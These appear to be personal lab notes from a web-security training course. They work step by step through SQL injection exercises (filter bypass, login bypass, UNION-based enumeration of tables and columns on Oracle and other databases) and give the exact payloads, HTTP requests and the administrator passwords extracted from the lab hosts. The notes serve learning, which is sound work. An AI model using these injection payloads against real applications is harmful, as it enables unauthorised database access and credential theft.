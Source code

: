 
Server-side topics

For complete beginners, we recommend starting with our server-side topics. These vulnerabilities are typically easier to learn because you only need to understand what's happening on the server. Our materials and labs will help you develop some of the core knowledge and skills that you will rely on time after time.


![[Pasted image 20221204102318.png]]


Client-side topics

Client-side vulnerabilities introduce an additional layer of complexity, which can make them slightly more challenging. These materials and labs will help you build on the server-side skills you've already learned and teach you how to identify and exploit some gnarly client-side vectors as well.


![[Pasted image 20221204102412.png]]


Advanced topics

These topics aren't necessarily more difficult to master but they generally require deeper understanding and a wider breadth of knowledge. We recommend getting to grips with the basics before tackling these labs, some of which are based on pioneering techniques discovered by our world-class research team.


![[Pasted image 20221204102529.png]]


```
Cheatsheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

https://0a2c00d504db930ac0dd522f00c200d4.web-security-academy.net/filter?category=Gifts%27+OR+1=1--

'+OR+1=1--

SQL injection vulnerability allowing login bypass

intercepting with bursuite professional (to use POST method, direct just using GET method)
POST /login HTTP/1.1
..
..
csrf=zZVXJyXD1MAoc7NmPhTbiwV6oTHnPLU9&username=administrator'--&password=test

administrator'--

SQL injection UNION attack, determining the number of columns returned by the query

https://0a940099032a32b1c0accd9700b600bf.web-security-academy.net/filter?category=Tech+gifts%27+UNION+SELECT+NULL,NULL--

'+UNION+SELECT+NULL,NULL,NULL--

SQL injection UNION attack, finding a column containing text

https://0a0700da0310c245c1224c3f0078007d.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+NULL,%27Rl5fpK%27,NULL--

'+UNION+SELECT+NULL,'Rl5fpK',NULL--

SQL injection UNION attack, retrieving data from other tables

https://0add00cf0390824ac040b034004b0033.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+username,password+FROM+users--

'+UNION+SELECT+username,password+FROM+users--

administrator
7odliemd3bi9jt1gtfk4

login

SQL injection attack, querying the database type and version on Oracle

first:
https://0a64002103c8b3d9c03f01bd00bd0097.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+%27abc%27,NULL+FROM+dual--

'+UNION+SELECT+'abc',NULL+FROM+dual--

second:
https://0a64002103c8b3d9c03f01bd00bd0097.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+banner,NULL+FROM+v$version--

'+UNION+SELECT+banner,NULL+FROM+v$version--

SQL injection attack, querying the database type and version on MySQL and Microsoft

intercept with burp professional (and send to repeater Ctrl+R)

GET /filter?category=Pets'+UNION+SELECT+@@version,NULL# HTTP/1.1

'+UNION+SELECT+@@version,NULL#

SQL injection attack, listing the database contents on non-Oracle databases

intercept with burp

first:
GET /filter?category=Pets'+UNION+SELECT+'abc','def'-- HTTP/1.1
second:
GET /filter?category=Pets'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables-- HTTP/1.1
found table users: users_ufalec
third:
GET /filter?category=Pets'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_ufalec'-- HTTP/1.1
found columns: username_blphyc,  password_xblxbo
last:
GET /filter?category=Pets'+UNION+SELECT+username_blphyc,password_xblxbo+FROM+users_ufalec-- HTTP/1.1
found user and pass: <th>administrator</th>  <td>th8eujv09icbe1e86yfe</td>
login

SQL injection attack, listing the database contents on Oracle

intercept with burp

first:
GET /filter?category=Pets'+UNION+SELECT+'abc','def'+FROM+dual-- HTTP/1.1
second:
GET /filter?category=Pets'+UNION+SELECT+table_name,NULL+FROM+all_tables-- HTTP/1.1
found table name from users: USERS_HIZXQV
third:
GET /filter?category=Pets'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_HIZXQV'-- HTTP/1.1
found columns: USERNAME_RUMPAP, PASSWORD_BIQMIR
last:
GET /filter?category=Pets'+UNION+SELECT+USERNAME_RUMPAP,PASSWORD_BIQMIR+FROM+USERS_HIZXQV-- HTTP/1.1
found user and pass:   <th>administrator</th><td>qudkinw7ogtxuwzxam8o</td>
login

some characters for me: alt + 126 : ~ , alt +96: `

SQL injection UNION attack, retrieving multiple values in a single column

first:
GET /filter?category=Pets'+UNION+SELECT+NULL,'abc'-- HTTP/1.1
second:
GET /filter?category=Pets'+UNION+SELECT+NULL,username+FROM+users-- HTTP/1.1
last:
GET /filter?category=Pets'+UNION+SELECT+NULL,username||':'||password+FROM+users-- HTTP/1.1
found: administrator:usx6y3m2l5zw3n274zgv
login



```







